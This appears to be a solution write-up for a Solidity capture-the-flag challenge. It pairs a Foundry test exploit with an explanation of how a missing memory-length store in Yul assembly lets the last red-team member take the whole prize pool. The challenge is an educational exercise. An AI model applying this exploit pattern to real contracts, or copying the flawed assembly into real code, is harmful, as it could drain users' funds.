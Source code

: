 # IKnowYulNeverHackThis Solution
Hopefully you picked the winning team in one try. The correct way to steal all of the funds was to join the read team. Here is the solution:
```
function test_GetThisPassing_3() public {
    address hacker = address(0xBAD);
    vm.deal(hacker, 1 ether);


    vm.startPrank(hacker);
    target.joinRedTeam{value: 1 ether}();
    target.defineWinners(false);
    vm.stopPrank();

    assertEq(hacker.balance, 10 ether);
}
```
To win you simply need to:
1. Join the Red Team.

2. Call `defineWinners()` with the paramater set to false.

Winning this challange is fairly easy. However, understanding how you won is far more important. To get a grasp on how joining the red team allows you to win this challenge, lets start by viewing what happens when you join the blue team.

Here is the code from that section with comments explaing each lines utility:
```
// creates an empty address array in memory with a size of one
address[] memory winners = new address[](1);

if (_isBlueTeam) {
    for(uint256 j; j < blueTeam.length; ++j) {
        address winner = blueTeam[j];
        assembly {

            // gets the location of the array in memory
            let location := winners

            // loads the size of the array from memory
            let length := mload(winners)

            // gets the next memory location after the array
            let nextMemoryLocation := add( location, mul( length, 0x20 ) )

            // loads the free memory pointer
            let freeMem := mload(0x40)

            // gets the memory location of the the word after the free memory pointer
            let newMsize := add( freeMem, 0x20 )

            /** 
            if the free memory pointer is not equal to the next available memory location after the array, we need to move each memory variable one word further. This will prevent us from overwritting an existing variable if they exist. (In this scenario they do not exist, but I needed to add more code to throw you off :)
            */
            if iszero( eq( freeMem, nextMemoryLocation) ){
                let currVal
                let prevVal
            
                // loop through the variables that need to be rewritten
                for { let i := nextMemoryLocation } lt(i, newMsize) { i := add(i, 0x20) } {
                    // get the current variables value from meory
                    currVal := mload(i)
                    // store the previous variable in this location
                    mstore(i, prevVal)
                    // save the current value to the stack
                    prevVal := currVal
                
                }
            }

            // store the current winner in the next memory location
            mstore(nextMemoryLocation, winner)

            // increment the length of the array
            length := add( length, 1 )

            // store the updated length to memory
            mstore( location, length )

            // update the free memory pointer
            mstore(0x40, newMsize )
        }
    }
```

We now know the proper way to update the winnings array. Although, addmitidley, there are far more efficient ways to do so for this particular function.

The issue with the version in the else statment (the flow if the red team is the winning team) stems from missing the following line of code:
```
mstore( location, length )
```
Although we do update the `length` variable, we only update it on the stack, and forget to store it in memory. All of the addresses were written to memory, but because the length never gets updated it keeps being rewritten by the next address. We were the last address in the red team array so our address is written to the winnings array at the end of the for loop.

Since the assembly block forgets to update the length of the array, the size is still one. This causes the calculation for the share of winnings to assign the entire balance to `shareOfPrize`. This sends the entirety of the winnings to our address.



Bonus Points if you noticed that the game cannot function properly after the first time.


